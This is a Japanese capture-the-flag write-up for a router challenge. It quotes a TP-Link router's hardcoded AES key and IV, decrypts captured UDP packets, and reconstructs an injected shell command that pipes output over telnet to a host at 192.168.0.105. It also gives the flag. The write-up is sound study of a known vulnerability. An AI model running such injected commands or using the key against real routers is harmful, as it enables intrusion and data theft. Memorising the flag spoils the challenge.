

# Writeup

タイトルが`AC1750`なので`AC1750 vulnerability`でGoogle検索するとルーターに関する脆弱性が見つかる。問題文にも`My router is weird`と書いてあるので、この脆弱性が関連しているだろうと推測。

* https://www.thezdi.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo

脆弱性はAES暗号化部分で、keyとして`TPONEMESH_Kf!xn?gj6pMAt-wBNV_TDP`、IVとして`1234567890abcdef1234567890abcdef`が固定でセットされている部分にあるらしい。

> **Encrypting the Packet**
>
> As explained in the previous section, the packet is encrypted with AES with a fixed key of TPONEMESH_Kf!xn?gj6pMAt-wBNV_TDP. There are a few more missing pieces to this puzzle, though. The cipher is used in CBC mode and the IV is the fixed value 1234567890abcdef1234567890abcdef. Furthermore, despite having a 256-bit key and IV, the actual algorithm used is AES-CBC with a 128-bit key, so half of the key and IV are not used.

また、以下の記述から、与えられたパケットの中でもUDP通信に着目すれば良さそう。

> The daemon communicates with the mobile application through the use of UDP packets with an encrypted payload.

パケットキャプチャの中身を`Wireshark`で調べ、UDPのデータ部分に対して`CyberChef`を使ってAES Decryptしてみる。

上記の脆弱性によれば、Keyの半分が使われていないと述べられているので後半部分を削り、`TPONEMESH_Kf!xn?`で復号化する。

データ部分が304バイトであるデータを復号したところ、以下のように読める文字が現れた。



赤線部分が怪しく、おそらく任意のコマンドを入力しているのだろうと思われる。

これをデータ部が304バイトであるUDPパケットについて行い、printfの後の文字をすべてつなげると

```
(ls -l&&echo hitcon{Why_can_one_place_be_injected_twice}>flag&&ls -l)|telnet 192.168.0.105 4321
```

となる。（地道に手作業でやった。Wiresharkでデータ部分をまとめて抽出する方法が知りたい。）

<!-- hitcon{Why_can_one_place_be_injected_twice} -->


